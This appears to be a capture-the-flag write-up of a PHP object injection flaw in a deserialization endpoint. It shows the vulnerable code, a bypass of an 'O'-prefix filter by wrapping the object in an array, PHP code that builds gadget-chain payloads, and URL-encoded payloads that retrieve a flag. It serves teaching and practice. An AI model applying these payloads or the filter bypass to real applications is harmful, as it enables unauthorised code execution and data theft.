


# Description

- **Type:** PHP Object Injection (POI)
- **Location:** `/supersecretscript.php?deser=`
- **Severity:** High
- **Impact:** Code execution via destruct method chain
- **Confirmed:** Yes (Flag retrieved)
- **RCE:** Not fully achieved (restricted to hardcoded command)

During reconnaissance **/robots.txt** was found with **/supersecret.php** endpoint  

```
$deser=$_GET['deser'];
if($deser){
  if(substr($deser, 0,1)=="O"){
    die('objects prohinited!');
  }else{
    var_dump(unserialize($deser));
  }
}else{
  highlight_file(__FILE__);
}
```

By passing seriliazed object through deser parameter it is possible to make gadget chain .  

**Example of serialized object**  
> O:11:"Logger__MGR":1:{s:6:"logger";O:8:"Sys__MGR":2:{s:13:"Sys__MGRcmd";s:2:"id";s:7:"message";N;}}

But since our string can't start with O, we can't insert it directly, but this can easily be avoided by wrapping it in array.  

## PoC

**To exploit Sys_MGR()**  

Correct constructed payload was achieved by following PHP object chain:  
```
$sys = new Sys__MGR();
$ref = new refClass($sys);
$prop = $ref->getProperty('cmd');
$prop->setAccessible(true);
$prop->setValue($sys, 'id');

$logger = new Logger__MGR();
$logger->logger = $sys;

$payload = array($logger); 

echo urlencode(serialize($payload));
```

**As output we got**  
> a%3A1%3A%7Bi%3A0%3BO%3A11%3A%22Logger__MGR%22%3A1%3A%7Bs%3A6%3A%22logger%22%3BO%3A8%3A%22Sys__MGR%22%3A2%3A%7Bs%3A13%3A%22%00Sys__MGR%00cmd%22%3Bs%3A6%3A%22id%22%3Bs%3A7%3A%22message%22%3BN%3B%7D%7D%7D  


Unfortunately, we were unable to obtain RCE because in 7.0-8.0 versions of PHP __wakeup() calls every time deserialization, and immideatly throws **Exception**. However even though __wakeup() threw an exception, we observed that echo 'hellow' (from close()) still appeared in the output — suggesting that Logger__MGR::__destruct() was triggered, and it attempted to call $logger->close().  

Since Sys__MGR::__wakeup() failed, the object was likely partially constructed, but enough to trigger close() — and echo 'hellow' worked, even though system($cmd) never ran.  

**To exploit Session__MGR()**  

But we have second class with some flag (I guess CTF task).  
Same logic goes here, but instead of creating Sys__MGR object we create Session_MGR object  

```
$sys = new Session__MGR();


$logger = new Logger__MGR();
$logger->logger = $sys;

$payload = array($logger);

echo urlencode(serialize($payload));
```
**Final payload:**  
> a%3A1%3A%7Bi%3A0%3BO%3A11%3A"Logger__MGR"%3A1%3A%7Bs%3A6%3A"logger"%3BO%3A12%3A"Session__MGR"%3A1%3A%7Bs%3A17%3A"%00Session__MGR%00key"%3Bs%3A4%3A"flag"%3B%7D%7D%7D  




**Mitigation**  
In order to avoid such vulnerabilities, **never unserialize user input** or use of **allowed_classes**  
 

